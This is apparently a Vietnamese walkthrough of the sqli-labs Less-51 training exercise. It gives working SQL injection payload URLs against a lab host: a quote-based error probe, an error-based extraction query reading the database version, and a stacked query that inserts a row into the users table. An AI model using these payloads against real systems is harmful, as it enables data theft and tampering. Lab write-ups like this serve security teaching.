





# Những việc làm được với lesson-51
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-51



Ta sẽ làm như những bài trước là ta sẽ thử nhập giá trị và thêm giá trị đặc biệt 

```
192.168.80.225/sqli-labs/Less-51/?sort=1'
```



Nó đã xuất ra màn hình lỗi của DB chứng tỏ rằng ta có thể sử dụng được error-base. Ta sẽ đi tìm cấu trúc của nó 

1. Cấu trúc câu truy vấn 

```
192.168.80.225/sqli-labs/Less-51/?sort=1' --+
```



2. Sử dụng error-base 

```
192.168.80.225/sqli-labs/Less-51/?sort=1'%20 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Tương tự như thế ta sẽ thay các truy vấn `version` thành các dữ liệu khác mà ta muốn dần dần ta sẽ có thể đọc được hết dữ liệu của bài này 

3. Sử dụng insert vào trong DB 

Ở bài này ta có thể insert vào được vì trong cấu trúc của bài có hàm cho phép ta sử dụng nhiều câu lệnh cùng lúc nên ta sẽ dùng câu lệnh sau 

```
192.168.80.225/sqli-labs/Less-51/?sort=1' ; insert into users values (51,'test','test') --+
```



